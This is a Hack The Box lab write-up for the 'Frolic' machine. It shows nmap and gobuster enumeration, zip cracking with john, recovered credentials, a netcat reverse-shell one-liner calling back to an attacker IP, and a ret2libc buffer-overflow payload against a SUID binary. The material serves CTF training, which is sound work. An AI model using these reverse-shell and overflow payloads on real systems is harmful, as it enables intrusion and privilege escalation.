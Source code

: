 # Hack the Box - Frolic

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.111 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.111
Host is up (0.18s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1880/tcp open  vsat-control
9999/tcp open  abyss
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/18%OT=22%CT=1%CU=42491%PV=Y%DS=2%DC=I%G=Y%TM=646608A
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=104%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=104%TI=Z%CI=I%TS=8)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O
OS:3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.36 seconds
```

```CSS
▶ nmap -sC -sV -p 22,139,445,1880,9999 10.10.10.111 -oN services.nmap

Nmap scan report for 10.10.10.111
Host is up (0.18s latency).          
                                          
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 877b912a0f11b6571ecb9f77cf35e221 (RSA)                                                                                                                            
|   256 b79b06ddc25e284478411e677d1eb762 (ECDSA)            
|_  256 21cf166d82a430c3c69cd738bab502b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        Node.js (Express middleware)
|_http-title: Node-RED
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h50m24s, deviation: 3h10m31s, median: -25s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-18T11:18:25
|_  start_date: N/A
|_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: frolic
|   NetBIOS computer name: FROLIC\x00
|   Domain name: \x00
|   FQDN: frolic
|_  System time: 2023-05-18T16:48:25+05:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.59 seconds
```
Discovered Open Ports:
1. **SSH Port#22**: The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.
2. **SMB Port#139 & Port#445**: Test for "Null Session Authetication"
3. 1880
4. 9999

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e12b346f-5558-4210-b2b4-49c186a4ed0d)
```CSS
▶ gobuster dir --url http://10.10.10.111:9999 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --extensions txt,js,php --threads 25
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0e02e818-d46d-425c-8195-1d9ff3aa5341)


![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7af09321-c71e-47ce-b7f6-54b97ff4e6d8)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f1d15473-ffae-4dc0-a5d6-d270bf70a618)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a85d3683-a8a5-4a27-8361-694d4b252040)

```CSS
Credentials: admin:superduperlooperpassword_lol
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9240e526-17ab-45d1-8d1c-e68d93faad60)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7591df2c-cc20-4b54-a986-4027d2568e1b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/66a2d4e4-985d-4b70-a4df-67a7d0ef5b9f)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8bcb57b5-b594-41d8-9474-2a6c6c330aae)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/af6f6a17-16bc-440e-b24b-1ed4e5af3922)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e1de19ea-242f-487e-ae2e-3d6486ded4ee)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0c2411a7-e561-4020-89f3-14742d079906)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d3088807-2330-4199-bbc5-4abb33b23b46)

```CSS
▶ john zip.john --format=PKZIP --wordlist=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8aa73b29-8e05-43a6-9a3d-83c89d75e6df)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4b12659f-691a-442d-ba04-1b61cb9f71e4)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1a70c288-9200-462f-97f7-608a11632cc8)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a86a288e-db60-4fec-9774-10ef3e0d8f41)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8877755e-9510-4fd2-9663-bfacc0568c64)

BrainFuck
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0831fb04-a6cd-4018-be64-f7fb94837d86)

Backup
```CSS
http://10.10.10.111:9999/backup/
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/fcff568b-9959-4287-9919-41720efd1855)

```CSS
▶ curl http://10.10.10.111:9999/backup/password.txt
▶ curl http://10.10.10.111:9999/backup/user.txt
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/db20e0c1-f90f-44fa-901a-2c45d45f6556)
```CSS
Credentials - admin:imnothuman
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ec5c52c-6566-4476-a9ed-f9113c153447)

PlaySMS
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d8c1905f-b1b9-4838-8c9d-cdecb3f0feca)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b3d935c5-d00e-41b4-8cbe-002de92210a9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ebe89563-2a21-4379-aa88-4207a74205bd)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/08d9357f-3b64-401d-a131-54c25a58f911)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d916d725-fc64-4882-bbf5-fa252d3d66e9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/be43de70-9326-471d-ace4-c6730b15f331)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cef3e540-3663-4b09-bca6-3d7c4d1df311)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2a4267c2-c02e-4040-9def-c313c6dd0781)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/fd6a5f06-6ac8-40c5-9ba4-2cfaaa26134c)

```CSS
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 443 >/tmp/f
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b756190e-316c-4b47-8573-5f0aee4b544e)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5c0cf823-e7fe-4cc3-94f5-11f4862fcf2c)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7dcb1781-c4d0-4c8c-8cdc-d77090ce4270)

```CSS
▶ find / -perm -4000 -type f 2>/dev/null
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/38526c27-ea9e-4769-ad1d-7370c0dcf1fb)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0f3379fe-4702-4105-aa78-7402fb132e2b)

SUID Explotation
```CSS
www-data@frolic:/home/ayush/.binary$ ./rop $(python -c 'print("a"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7" + "\x0b\x4a\xf7\xb7")')
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/01851adc-a6e6-4969-a28a-10006093ff88)
